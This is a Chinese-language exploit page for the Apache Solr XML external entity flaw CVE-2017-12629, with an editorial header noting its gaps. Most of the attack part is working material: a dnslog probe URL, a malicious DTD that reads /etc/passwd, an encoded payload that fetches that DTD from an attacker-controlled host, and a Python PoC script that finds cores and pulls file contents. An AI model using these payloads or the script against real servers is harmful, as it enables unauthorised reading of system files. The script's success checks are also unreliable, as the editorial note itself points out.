






# Apache Solr XML 实体注入漏洞 CVE-2017-12629

<!-- vulwiki-editorial:start -->
## 校订与适用边界

- 适用前提：<7.1，可调用xmlparser查询；外部DTD可达，文件内容受权限/报错回显限制
- 证据范围：明确只演示XXE，与同CVE RunExecutableListener RCE应保留不同入口和证据。

### 本次正文校订

- 按实际内容修正 1 处代码围栏语言标记，保留其中方法与请求内容。

### 尚未解决的证据缺口

以下限制仍适用于后文历史材料；相关版本、结果或修复结论不能据此视为已验证：

- 脚本target_url拼solr缺自动补/，需用户尾斜线但未说明
- DNS/DTD地址硬编码占位；输出错误附加/config
- HTTP500不能直接判失败，报错回显XXE正可能返回错误状态；nologin子串也非通用成功条件
- URL原始XML应编码；缺具体运行版本/修复建议
- Lucene库影响不等于所有Solr/Java服务均暴露此查询入口

### 操作风险与资料使用

- 涉及 LDAP/RMI/DNS/HTTP 外带：回连只证明相应网络交互，不能单独证明命令执行；使用自控接收端，避免把日志、凭据或真实业务数据发送给第三方。

本页为文本校订，未执行代码、PoC 或目标请求；原图仅保留引用，未据此确认复现成功。
<!-- vulwiki-editorial:end -->

## 技术正文与历史材料

## 漏洞描述

漏洞原理与分析可以参考：

- https://www.exploit-db.com/exploits/43009/
- https://paper.seebug.org/425/

Apache Solr 是一个开源的搜索服务器。Solr 使用 Java 语言开发，主要基于 HTTP 和 Apache Lucene 实现。原理大致是文档通过 Http 利用 XML 加到一个搜索集合中。查询该集合也是通过 http 收到一个 XML/JSON 响应来实现。此次 7.1.0 之前版本总共爆出两个漏洞：XML 实体扩展漏洞（XXE）和远程命令执行漏洞（RCE），二者可以连接成利用链，编号均为 CVE-2017-12629。

本环境仅测试 XXE 漏洞，RCE 和利用链，可以在 https://github.com/vulhub/vulhub/tree/master/solr/CVE-2017-12629-RCE 中查看。

## 漏洞影响

```
Apache Solr < 7.1
Apache Lucene < 7.1
```

## 环境搭建

Vulhub 运行漏洞环境：

```shell
docker-compose up -d
```

命令执行成功后，需要等待一会，之后访问 `http://your-ip:8983/` 即可查看到 Apache solr 的管理页面，无需登录。



## 漏洞复现

先请求 url 地址获取 cores 内容：

```
http://your-ip:8983/solr/admin/cores
```



访问 dnslog，验证漏洞是否存在（注意这里的 `demo` 是从上一步中得到的）：

```plain
http://your-ip:8983/solr/demo/select?q={!xmlparser v='<!DOCTYPE a SYSTEM "http://xxxxx.ceye.io"><a></a>'}&wt=xml
```



查看 dnslog 得到请求，漏洞存在：



在自己的服务器上写入一个可访问的 XML 文件 solr_xxe.dtd，内容写入：

```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % ent "<!ENTITY data SYSTEM ':%file;'>">
```

然后请求这个文件来读取服务器上的文件：

```plain
http://your-ip:8983/solr/demo/select?&q=%3C%3fxml+version%3d%221.0%22+%3f%3E%3C!DOCTYPE+root%5b%3C!ENTITY+%25+ext+SYSTEM+%22http%3a%2f%2fyour.domain%2fsolr_xxe.dtd%22%3E%25ext%3b%25ent%3b%5d%3E%3Cr%3E%26data%3b%3C%2fr%3E&wt=xml&defType=xmlparser

# 解码
/solr/demo/select?&q=<?xml version="1.0" ?><!DOCTYPE root[<!ENTITY % ext SYSTEM "http://your.domain/solr_xxe.dtd">%ext;%ent;]><r>&data;</r>&wt=xml&defType=xmlparser
```



注意这里的 payload 进行了 url 编码,请求的文件为 `http://your.domain/solr_xxe.dtd`，有更多需求自行更改写入的 xml 文件。

## 漏洞 POC

```
# solr_xxe.dtd

<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % ent "<!ENTITY data SYSTEM ':%file;'>">
```

```python
#!/usr/bin/python3
#-*- coding:utf-8 -*-

import requests
import sys
import json
import random

def POC_1(target_url):
    core_url = target_url + "solr/admin/cores?indexInfo=false&wt=json"
    try:
        response = requests.request("GET", url=core_url, timeout=10)
        core_name = list(json.loads(response.text)["status"])[0]
        print("\033[32m[o] 成功获得core_name,Url为：" + target_url + "/solr/" + core_name + "/config\033[0m")
        print('Core name: ', core_name)
        return core_name
    except:
        print("\033[31m[x] 目标Url漏洞利用失败\033[0m")
        sys.exit(0)

def POC_2(target_url, core_name, dnslog_url):
    dns_payload = """solr/%s/select?q={!xmlparser v='<!DOCTYPE a SYSTEM "%s"><a></a>'}&wt=xml""" % (core_name, dnslog_url)
    vuln_url = target_url + dns_payload
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36"
    }
    try:
        response = requests.request("GET", url=vuln_url, headers=headers, timeout=30)
        if "HTTP ERROR 500" in response.text:
            print("\033[31m[x] 漏洞利用失败 \033[0m")
        else:
            print("\033[32m[o] 请查看dnslog响应, DNSlog利用Url为：" + vuln_url + "/config\033[0m")
    except:
            print("\033[31m[x] 漏洞利用失败 \033[0m")

def POC_3(target_url, core_name):
    file_payload = """solr/{}/select?&q=%3C%3fxml+version%3d%221.0%22+%3f%3E%3C!DOCTYPE+root%5b%3C!ENTITY+%25+ext+SYSTEM+%22http%3a%2f%2fyour.vps.here%2fsolr_xxe.dtd%22%3E%25ext%3b%25ent%3b%5d%3E%3Cr%3E%26data%3b%3C%2fr%3E&wt=xml&defType=xmlparser""".format(core_name)
    vuln_url = target_url + file_payload
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36"
    }

    response = requests.request("GET", url=vuln_url, headers=headers, timeout=30)
    if "nologin" in response.text:
        print("\033[32m[o] 漏洞成功利用, Url为：/config\033[0m \n", vuln_url )
        print("\033[32m[o] 响应为: \n \033[0m",response.text)
    else:
        print("\033[31m[x] 漏洞利用失败 \033[0m")

if __name__ == '__main__':
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    core_name = POC_1(target_url)   
    dnslog_url = 'http://{}.your.dnslog.here'.format(core_name)
    POC_2(target_url, core_name, dnslog_url)
    POC_3(target_url, core_name)
```




---

> 来源：Threekiii/Awesome-POC
